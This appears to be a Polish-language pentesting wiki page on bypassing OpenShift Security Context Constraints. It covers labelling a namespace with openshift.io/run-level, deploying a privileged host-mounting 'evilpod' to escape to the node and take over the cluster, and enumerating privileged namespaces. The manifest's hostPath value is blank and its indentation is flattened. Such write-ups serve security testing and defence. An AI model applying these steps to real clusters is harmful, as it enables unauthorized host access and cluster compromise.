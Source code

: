 # Openshift - Ominięcie SCC

**Oryginalnym autorem tej strony jest** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Przestrzenie nazw uprzywilejowane

Domyślnie SCC nie jest stosowane w następujących projektach:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

Jeśli wdrożysz moduły w jednej z tych przestrzeni nazw, żadne SCC nie będzie egzekwowane, co pozwala na wdrożenie uprzywilejowanych modułów lub montowanie systemu plików hosta.

## Etykieta przestrzeni nazw

Istnieje sposób na wyłączenie stosowania SCC w twoim module zgodnie z dokumentacją RedHat. Będziesz musiał mieć co najmniej jedno z następujących uprawnień:

- Utwórz przestrzeń nazw i utwórz moduł w tej przestrzeni nazw
- Edytuj przestrzeń nazw i utwórz moduł w tej przestrzeni nazw
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
Specyficzna etykieta `openshift.io/run-level` umożliwia użytkownikom obejście SCC dla aplikacji. Zgodnie z dokumentacją RedHat, gdy ta etykieta jest wykorzystywana, żadne SCC nie są egzekwowane na wszystkich podach w tej przestrzeni nazw, efektywnie usuwając wszelkie ograniczenia.

<figure><img src="../../../.gitbook/assets/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Dodaj Etykietę

Aby dodać etykietę w swojej przestrzeni nazw:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Aby utworzyć przestrzeń nazw z etykietą za pomocą pliku YAML:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Teraz wszystkie nowe pody utworzone w przestrzeni nazw nie powinny mieć żadnego SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

W przypadku braku SCC nie ma żadnych ograniczeń dotyczących definicji twojego pada. Oznacza to, że złośliwy pod może łatwo zostać utworzony, aby uciec na system hosta.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Teraz stało się łatwiejsze eskalowanie uprawnień w celu uzyskania dostępu do systemu hosta, a następnie przejęcie całego klastra, uzyskując uprawnienia „cluster-admin”. Szukaj części **Node-Post Exploitation** na następnej stronie:

{% content-ref url="../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md" %}
[attacking-kubernetes-from-inside-a-pod.md](../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md)
{% endcontent-ref %}

### Niestandardowe etykiety

Co więcej, w zależności od konfiguracji docelowej, niektóre niestandardowe etykiety / adnotacje mogą być używane w ten sam sposób jak w poprzednim scenariuszu ataku. Nawet jeśli nie są do tego przeznaczone, etykiety mogą być używane do nadawania uprawnień, ograniczania lub nie ograniczania dostępu do określonych zasobów.

Spróbuj znaleźć niestandardowe etykiety, jeśli możesz odczytać niektóre zasoby. Oto lista interesujących zasobów:

* Pod
* Deployment
* Namespace
* Service
* Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Wymień wszystkie uprzywilejowane przestrzenie nazw
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Zaawansowany exploit

W OpenShift, jak już pokazano wcześniej, posiadanie uprawnień do wdrażania poda w przestrzeni nazw z etykietą `openshift.io/run-level` może prowadzić do prostego przejęcia klastra. Z perspektywy ustawień klastra, ta funkcjonalność **nie może zostać wyłączona**, ponieważ jest ona nieodłączna od projektu OpenShift.

Jednakże środki łagodzące, takie jak **Open Policy Agent GateKeeper**, mogą zapobiec użytkownikom w ustawianiu tej etykiety.

Aby ominąć reguły GateKeeper'a i ustawić tę etykietę w celu wykonania przejęcia klastra, **atakujący musieliby zidentyfikować alternatywne metody.**

## Referencje

* [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
* [https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html](https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html)
* [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
